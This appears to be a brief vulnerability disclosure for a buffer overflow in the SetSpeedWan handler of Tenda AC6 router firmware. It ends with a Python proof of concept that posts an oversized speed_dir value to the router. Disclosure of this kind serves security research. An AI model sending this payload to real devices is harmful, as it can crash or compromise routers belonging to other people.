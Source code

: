 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/formSetSpeedWan

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10U_V1/13.png)

get value from speed_dir, then call sprintf, cause buff overflow





## POC
```
url = "http://192.168.1.13/goform/SetSpeedWan"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'speed_dir': payload})
``` 

